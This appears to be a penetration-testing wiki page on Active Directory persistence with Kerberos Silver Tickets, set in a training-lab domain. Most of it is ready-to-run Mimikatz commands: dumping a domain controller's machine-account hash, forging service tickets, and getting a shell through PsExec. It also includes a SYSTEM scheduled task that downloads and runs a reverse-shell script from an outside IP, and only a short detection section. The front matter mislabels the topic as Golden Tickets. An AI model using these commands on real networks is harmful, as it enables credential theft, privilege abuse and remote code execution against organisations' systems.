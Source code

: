 ```yaml
---
title: "Silver Tickets"
description: "Persistence using Silver Tickets."
lead: "Using Golden Tickets for persistence in Active Directory with Mimikatz."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_persistence"
weight: 20
toc: true
---
```


## General

- A valid TGS
- Encrypted and signed by NTLM hash of the target service account
- Services rarely check PAC (Privileged Attribute Certificate)
- Services will allow access only to the services themselves
- Reasonable persistence period (detauled 30 days for computer accounts)

## Exploitation

### Arguments

| Argument | Description |
| --- | --- |
| kerberos::golden | Name of the module (there is no Silver module!) |
| /domain:domain:dollarcorp.moneycorp.local | Domain FQDN |
| /sid:S-1-5-21-1874506631-3219952063-538504511 | SID of the domain |
| /target:dcorp dc.dollarcorp.moneycorp.local | Target server FQDN |
| /User:Administrator | Username for which the TGT is generated |
| /id:500 /groups:512 | Optional User RID (default 500) and Group (default 513 512 520 518 519) |
| /service:cifs | The SPN name of the target service for the TGS |
| /rc4:6f5b5acaf7433b3282ac22e21e62ff22 | NTLM (RC4) hash of the service/machine account (<MACHINE-NAME$>). Use /aes128 and /aes256 for using AES keys. |
| /startoffset:0 | Optional when the ticket is available (default 0 right now) in minutes. Use negative for a ticket available from past and a larger number for future. |
| /endin:600 | Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes |
| /renewmax:10080 | Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 |
| /ptt | Injects the ticket in current PowerShell process no need to save the ticket on disk |

### Commands

```powershell
# Check Kerberos ticket policy using PowerView
(Get-DomainPolicy -Domain lab.local)."Kerberos Policy"

# Execute mimikatz on DC as DA to get dcorp-dc$ (machine account) hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch /user:dcorp-dc$"' -ComputerName "dcorp-dc"

# Using hash of the DC computer account, below command provides access to shares on the DC
# Similar command can be used for any other service on a machine
# Example services: HOST, RPCSS, WSMAN
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /user:Administrator /service:CIFS /rc4:d32ef7a25657da14a143e0185488a1a3 /ptt"'

# Use proper values from kerberos policy and AES keys to be stealthier
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /user:Administrator /service:CIFS /rc4:d32ef7a25657da14a143e0185488a1a3 /aes128:AES128KEY /aes256:AES256KEY /ptt"'

# Get shell through PsExec
.\PsExec.exe -AcceptEULA \\dcorp-dc.dollarcorp.moneycorp.local cmd
```

## Getting Command Execution

### Scheduled Tasks through HOST Service

```powershell
# Create silver ticket for the HOST SPN which will allow us to schedule a task on the target
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /user:Administrator /service:HOST /rc4:d32ef7a25657da14a143e0185488a1a3 /ptt"'

# Create scheduled task
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.72/Invoke-PowerShellTcp.ps1''')'"

# Run task on the target
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"

# Clean Up
schtasks /delete /tn "STCheck" /s dcorp-dc.dollarcorp.moneycorp.local /f
```

### WMI

```powershell
# Create two tickets - one for HOST service and another for RPCSS
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /user:Administrator /service:HOST /rc4:d32ef7a25657da14a143e0185488a1a3 /ptt"'
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /user:Administrator /service:RPCSS /rc4:d32ef7a25657da14a143e0185488a1a3 /ptt"'

# Run WMI commands on DC
Get-WmiObject -Class win32_operatingsystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

## Detection

- Event IDs:
  - 4624: Account Logon
  - 4634: Account Logoff
  - 4672: Admin Logon

```powershell
Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List -Property *
```
